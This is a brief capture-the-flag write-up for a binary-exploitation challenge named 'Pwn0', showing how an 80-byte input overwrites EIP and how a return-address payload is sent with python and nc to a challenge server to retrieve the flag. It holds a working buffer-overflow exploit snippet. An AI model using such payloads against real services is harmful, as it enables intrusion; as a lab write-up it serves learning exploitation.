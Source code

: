 # Pwn0

![pwn0_chall](../IMG/pwn0_chall.png)

It's just a programme which asks : "How's the josh?" and answer : "Your josh is low! Bye!"

If we put many number we got : 

![pwn0_proof1](../IMG/pwn0_proof1.png)

![pwn0_proof2](../IMG/pwn0_proof2.png)

so at index 80, we overwrite EIP registers.

so we have our offset, need what's inject !

By dissasembling the main programme, we can see :

![pwn0_proof3](../IMG/pwn0_proof3.png)

so we just call the **movl** previous instruction.

so our injection looks like : 

```python
offset = "A"*80
payload = "\x57\x85\x04\x08"
```

```bash
python -c 'print offset+payload'|nc 104.154.106.182:1234
and get the flag !
![pwn0_proof4](../IMG/pwn0_proof4.png)























```
